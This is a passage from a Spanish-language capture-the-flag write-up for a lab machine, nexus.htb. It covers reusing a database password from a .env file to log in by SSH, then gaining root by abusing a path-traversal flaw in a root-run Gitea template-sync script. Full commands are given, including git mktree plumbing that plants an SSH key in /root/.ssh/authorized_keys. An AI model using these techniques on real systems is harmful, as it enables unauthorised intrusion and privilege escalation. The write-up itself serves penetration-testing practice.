Aparecen dos usuarios: git (asociado al servicio Gitea) y jones, que ya habíamos visto como usuario de Gitea durante la enumeración.
Lo primero que revisamos es el fichero de configuración .env real de la aplicación Krayin, que ahora sí es accesible desde el sistema de ficheros (recordemos que el del repositorio estaba vacío):
cat ~/krayin/.env
APP_KEY=base64:n4swv+4YcBtCr1OPHBe69GxK06/X1y1vCQU1SIMIC7Q=
...
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_DATABASE=krayin
DB_USERNAME=krayin
DB_PASSWORD=y27xb3ha!!74GbR
...
Aquí encontramos la contraseña real de la base de datos: y27xb3ha!!74GbR (distinta de la que vimos filtrada en el historial de Git). Revisamos también los servicios que escuchan localmente:
ss -tlnp
LISTEN 0 151 127.0.0.1:3306 0.0.0.0:* # MySQL
LISTEN 0 70 127.0.0.1:33060 0.0.0.0:* # MySQL X Protocol
LISTEN 0 4096 127.0.0.1:3000 0.0.0.0:* # Gitea (proxyado por nginx en git.nexus.htb)
LISTEN 0 511 0.0.0.0:80 0.0.0.0:* # nginx
LISTEN 0 4096 0.0.0.0:22 0.0.0.0:* # SSH
Reutilización de credenciales → SSH como jones
Con una contraseña válida en la mano, el siguiente paso lógico ante un usuario del sistema como jones es comprobar si existe reutilización de credenciales. Probamos a autenticarnos por SSH.
La contraseña del .env resulta ser válida también para la cuenta de jones, concediéndonos acceso por SSH como un usuario legítimo del sistema:
nexus ssh jones@nexus.htb
The authenticity of host 'nexus.htb (10.129.176.242)' can't be established.
ED25519 key fingerprint is: SHA256:OZNUeTZ9jastNKKQ1tFXatbeOZzSFg5Dt7nhwhjorR0
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nexus.htb' (ED25519) to the list of known hosts.
jones@nexus.htb's password:
Welcome to Ubuntu 24.04.4 LTS (GNU/Linux 6.8.0-111-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
System information as of Tue Oct 20 07:10:22 PM UTC 2026
System load: 0.0
Usage of /: 66.7% of 6.48GB
Memory usage: 19%
Swap usage: 0%
Processes: 227
Users logged in: 0
IPv4 address for eth0: 10.129.176.242
IPv6 address for eth0: dead:beef::a0de:adff:fe6a:4332
* Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
just raised the bar for easy, resilient and secure K8s cluster deployment.
https://ubuntu.com/engage/secure-kubernetes-at-the-edge
Expanded Security Maintenance for Applications is not enabled.
1 update can be applied immediately.
To see these additional updates run: apt list --upgradable
Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
jones@nexus:~$ ls
user.txt
jones@nexus:~$ cat user.txt
[REDACTED]
Con la primera flag capturada, pasamos a la fase de escalada de privilegios hacia root.
4. Escalada de Privilegios (Root)
Enumeración: un timer sospechoso
Tras descartar los vectores habituales (sudo -l sin permisos, SUID/SGID estándar, sin capabilities útiles —el pam_cap apuntaba al fichero de ejemplo por defecto—, y sin credenciales nuevas en la base de datos), revisamos los timers de systemd en busca de tareas periódicas:
systemctl list-timers
NEXT LEFT LAST PASSED UNIT ACTIVATES
Wed 2026-10-21 18:15:06 UTC 51s Wed 2026-10-21 18:14:06 UTC 8s ago gitea-template-sync.timer gitea-template-sync.service
...

Entre los timers del sistema destaca uno que no es estándar de Ubuntu: gitea-template-sync.timer, que se ejecuta cada minuto. Inspeccionamos la unidad y el servicio que dispara:
systemctl cat gitea-template-sync.timer gitea-template-sync.service
# /etc/systemd/system/gitea-template-sync.service
[Unit]
Description=Sync Gitea templates
After=network-online.target
[Service]
Type=oneshot
User=root
ExecStart=/usr/bin/python3 /etc/gitea/template-sync.py
TimeoutStartSec=50s
Dos datos críticos: el servicio corre como User=root y ejecuta un script Python en /etc/gitea/template-sync.py. Ese script sí es legible por nuestro usuario:
cat /etc/gitea/template-sync.py
Análisis de la vulnerabilidad (Path Traversal → escritura arbitraria como root)
El script, resumido, hace lo siguiente como root, cada minuto:
- Consulta la API de Gitea y selecciona los repositorios marcados como template (
template: true). - Por cada uno, lee el repositorio bare en disco (
/var/lib/gitea/data/gitea-repositories/<owner>/<name>.git) listando sus ficheros congit ls-tree -r HEADy extrayendo el contenido de cada blob congit cat-file blob. - Escribe cada fichero en un directorio de staging:
def sync_template(repo_info):
owner = repo_info['owner']['login']
name = repo_info['name'].lower()
...
stage_path = os.path.join(STAGING_DIR, owner, name) # /home/git/template-staging/<owner>/<name>
...
for mode, objhash, filepath in entries:
target = os.path.join(stage_path, filepath) # <-- filepath NO se sanea
target_dir = os.path.dirname(target)
os.makedirs(target_dir, exist_ok=True) # crea directorios como root
...
with open(target, 'wb') as f: # escribe como root
f.write(cat_result.stdout)
if mode == '100755':
os.chmod(target, 0o755) # incluso con bit de ejecución
El fallo está en que filepath proviene directamente de git ls-tree y no se valida. Si uno de los ficheros del repositorio template tiene una ruta con path traversal (../../../...), el os.path.join(stage_path, filepath) genera una ruta que, al resolverse en el sistema de ficheros, sale del directorio de staging y apunta a cualquier ubicación del sistema. Como el proceso corre como root y además crea los directorios intermedios (os.makedirs), disponemos de una escritura de ficheros arbitraria como root (CWE-22).
El plan de explotación es, por tanto:
- Crear un repositorio en Gitea (ya tenemos acceso como
jones) y marcarlo como template. - Introducir en él un fichero cuya ruta en el árbol de Git contenga un path traversal apuntando a una ubicación sensible — por ejemplo
/root/.ssh/authorized_keyscon nuestra clave pública. - Esperar a que el timer ejecute el sync (≤ 1 minuto) y conectarnos por SSH como
root.
El único reto técnico es que Git no permite, por las vías normales, versionar un fichero cuya ruta contenga ... Lo resolveremos construyendo el árbol de Git manualmente con comandos de plumbing (git mktree).
Explotación: escritura arbitraria como root vía repo template
1. Generamos una clave SSH que colocaremos en el authorized_keys de root:
ssh-keygen -t ed25519 -f root_key -N ''
2. Creamos el repositorio en Gitea (como jones), inicializándolo con un README.

Importante lo marcamos como Template en Settings (requisito para que el script lo procese). Lo verificamos por API:
curl -s "http://git.nexus.htb/api/v1/repos/jones/hackeado" | grep -o '"template":[a-z]*'
"template":true

3. Forjamos el árbol malicioso. Como Git no permite versionar rutas con .. por las vías habituales, construimos el árbol a mano con plumbing (git mktree), anidando directorios .. hasta salir del staging y alcanzar /root/.ssh/authorized_keys:
git clone http://jones:'<PASSWORD>'@git.nexus.htb/jones/hackeado.git
cd hackeado
# blob con nuestra clave pública
blob=$(git hash-object -w ../root_key.pub)
# Árbol real: root/.ssh/authorized_keys
t=$(printf '100644 blob %s\tauthorized_keys\n' "$blob" | git mktree)
t=$(printf '040000 tree %s\t.ssh\n' "$t" | git mktree)
t=$(printf '040000 tree %s\troot\n' "$t" | git mktree)
# Prefijo de path traversal: 6 niveles de '..' para remontar hasta '/'
for i in $(seq 1 6); do t=$(printf '040000 tree %s\t..\n' "$t" | git mktree); done
# Commit y push forzado a la rama por defecto
c=$(git commit-tree "$t" -m pwn)
git push -f origin "${c}:refs/heads/main"
Nota (zsh): hay que escribir
"${c}:refs/heads/main"con llaves. Sin ellas, zsh interpreta:rcomo un modificador de expansión y rompe el refspec.
Al hacer el push, el propio Git nos confirma indirectamente que el traversal está en el árbol, al intentar leer atributos fuera del repositorio:
advertencia: no es posible acceder '../../../../../../root/.ssh/.gitattributes': Permiso denegado
...
+ b073ac2...c7b6f7f c7b6f7f... -> main (forced update)
4. Esperamos a que salte el timer (≤ 1 minuto). El servicio, corriendo como root, lee nuestro repo template, extrae el fichero siguiendo la ruta con .. y escribe nuestra clave pública en /root/.ssh/authorized_keys (creando el directorio .ssh por el camino). Nos conectamos por SSH como root:
ssh -i root_key root@nexus.htb
root@nexus:~# whoami
root
root@nexus:~# cat /root/root.txt
[REDACTED]
